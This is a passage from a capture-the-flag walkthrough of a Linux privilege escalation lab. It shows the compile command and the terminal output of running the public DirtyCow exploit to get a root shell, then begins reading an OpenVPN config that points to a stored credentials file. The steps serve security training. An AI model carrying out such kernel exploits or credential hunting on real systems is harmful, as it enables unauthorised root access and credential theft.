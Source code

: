 Then compiling the dirtycow exploit :

```console
gcc -pthread /home/user/tools/dirtycow/c0w.c -o c0w
```
{: .nolineno }

And finally, launched the exploit to become root :

```console
TCM@debian:~$ ls
c0w  myvpn.ovpn  tools
TCM@debian:~$ id
uid=1000(TCM) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)
TCM@debian:~$ ./c0w 
                                
   (___)                                   
   (o o)_____/                             
    @@ `     \                            
     \ ____, //usr/bin/passwd                          
     //    //                              
    ^^    ^^                               
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
mmap 486ec000

madvise 0

ptrace 0

TCM@debian:~$ id
uid=1000(TCM) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)
TCM@debian:~$ passwd
root@debian:/home/user# id
uid=0(root) gid=1000(user) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
root@debian:/home/user#
```
{: .nolineno }

Answer : 4

## TASK 4 : Privilege Escalation - Stored Passwords (Config Files)
### What password did you find? 
User has one .ovpn file with the path to the auth.txt file :

```console
TCM@debian:~$ cat /home/user/myvpn.ovpn 
client
dev tun
proto udp
remote 10.10.10.10 1194
resolv-retry infinite
nobind
persist-key
persist-tun
ca ca.crt
tls-client
remote-cert-tls server
auth-user-pass /etc/openvpn/auth.txt
comp-lzo
verb 1
```